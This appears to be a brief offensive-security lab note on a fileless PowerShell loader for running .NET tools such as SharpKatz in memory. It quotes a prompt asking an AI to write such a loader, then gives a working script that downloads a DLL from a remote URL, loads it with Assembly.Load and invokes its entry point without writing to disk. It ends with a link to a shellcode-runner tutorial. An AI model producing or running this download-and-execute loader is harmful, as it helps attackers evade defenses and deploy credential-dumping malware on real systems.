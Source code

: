 # Lab - PS Loader

# Powershell in-memory loader
> ADVANTAGES of .net binaries -> can be loaded and executed completely in-memory (fileless)

Powershell loader - load assembly (sharpkatz)

> AI PROMPT : write a powershell script that downloads a .dotnet binary from a remote website, and then loads it in memory with loadassembly and execute, without anything touching disk, in as few linnes as possible

```powershell
$binaryUrl = "https://example.com/sample.dll"
$bytes = (New-Object System.Net.WebClient).DownloadData($binaryUrl)
$asm = [System.Reflection.Assembly]::Load($bytes)
$asm.GetType("SampleNamespace.SampleClass").GetMethod("Main").Invoke($null, $null)
```

<https://mbaedev.notion.site/ELI5-Reflection-Shellcode-Runner-in-PowerShell-1e7229403c6980d085cde7f5b029803c>

dot-net execute